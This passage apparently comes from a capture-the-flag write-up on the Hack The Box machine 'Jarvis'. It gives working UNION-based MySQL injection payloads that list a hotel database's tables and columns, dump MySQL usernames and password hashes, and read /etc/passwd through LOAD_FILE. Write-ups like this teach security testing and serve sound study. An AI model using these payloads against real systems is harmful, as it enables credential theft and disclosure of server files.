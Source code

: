 ### 5) Enumerate the tables for the hotel database

```mysql
-1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,(SELECT GROUP_CONCAT(table_name SEPARATOR ', ') from information_schema.columns where table_schema = 'hotel'),NULL;#
```

Notice below that the only table in the `hotel` database is `room`:

![](/assets/images/htb-jarvis/jarvis-sql-injection-list-tables-hotel-database.png)

### 6) Enumerate the columns for the room table in the hotel database

```mysql
-1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,(SELECT GROUP_CONCAT(column_name SEPARATOR ', ') from information_schema.columns where table_schema = 'hotel' and table_name = 'room'), NULL;#
```

![](/assets/images/htb-jarvis/jarvis-sql-injection-room-hotel-schema.png)

### 7) Enumerate all MySQL usernames and passwords

```mysql
-1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,(SELECT CONCAT(user,';',password) from mysql.user),NULL;#
```

![](/assets/images/htb-jarvis/jarvis-sql-injection-dump-usernames-passwords.png)

### 8) Read the /etc/passwd file

```mysql
-1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,LOAD_FILE('/etc/passwd'),NULL;#
```

![](/assets/images/htb-jarvis/jarvis-sql-injection-read-etc-passwd.png)
